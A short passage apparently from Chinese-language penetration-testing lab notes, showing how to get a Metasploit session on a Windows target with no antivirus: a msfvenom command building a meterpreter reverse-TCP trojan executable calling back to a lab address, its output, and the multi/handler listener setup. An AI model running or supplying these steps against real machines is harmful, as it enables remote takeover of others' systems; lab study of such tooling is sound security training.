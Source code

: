 ![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2023.png)

不存在杀软

## msf上线

生产木马

kali:

```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f exe > shell.exe
```

```csharp
┌──(root㉿kali)-[~/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

msf监听：

```csharp
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.5.128
run
```

